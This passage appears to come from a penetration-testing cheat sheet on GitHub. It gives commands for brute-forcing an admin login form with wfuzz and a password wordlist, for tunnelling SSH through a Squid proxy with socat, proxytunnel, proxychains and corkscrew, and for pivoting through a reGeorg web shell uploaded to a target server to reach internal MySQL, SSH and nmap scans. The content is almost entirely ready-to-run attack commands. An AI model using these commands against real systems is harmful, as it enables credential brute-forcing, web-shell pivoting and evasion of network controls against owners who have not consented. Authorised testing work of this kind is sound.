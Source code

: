 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```

<a name="sshovertcp"></a><h3>SSH over HTTP (Squid)</h3>

<b> socat </b>

<pre>socat TCP-L:9999,fork,reuseaddr PROXY:192.168.1.41:127.0.0.1:22,proxyport=3128

ssh john@127.0.0.1 -p 9999</pre>


<b>proxytunnel </b>

<pre>proxytunnel -p 192.168.1.41:3128 -d 127.0.0.1:22 -a 5555

ssh john@127.0.0.1 -p 5555</pre>

<b>proxychains </b>

<pre>http 192.168.1.41 3128

proxychains ssh john@127.0.0.1</pre>

![proxychains](https://user-images.githubusercontent.com/7115563/33822522-1e15dbee-de58-11e7-9953-3da8ff684cfc.png)


<b>corkscrew </b>

<pre>ssh john@192.168.1.41 -t /bin/sh</pre>

![cork](https://user-images.githubusercontent.com/7115563/33822672-b92a51f0-de58-11e7-9936-06056b7903b8.png)


<a name="tcpoverhttp"></a><h3> TCP over HTTP </h3>

For this technique, it is necessary to be able to upload a file to a webserver.

<a name="regeorg"><b> 1. reGeorg </b>
  
  File upload to the server correct
  
  ![regeorge2](https://user-images.githubusercontent.com/7115563/33883424-028c9f0e-df3c-11e7-9559-b35667ae76db.png)
  
  Tunnel creation
  
  `python reGeorgSocksProxy.py -p 5555 -u "http://<ip>/admin/uploads/reGeorg.jsp"`
  
  Proxychains config
  
  ![regeorge1](https://user-images.githubusercontent.com/7115563/33883419-fcc15416-df3b-11e7-89a9-499ffc1de9cf.png)
  
  <pre>
proxychains nmap -F -sT 127.0.0.1
proxychains mysql -u root -p -h 127.0.0.1
proxychains ssh localhost
</pre>

![regeorge3](https://user-images.githubusercontent.com/7115563/33883422-017021fe-df3c-11e7-8f99-f02de5084c02.png)

```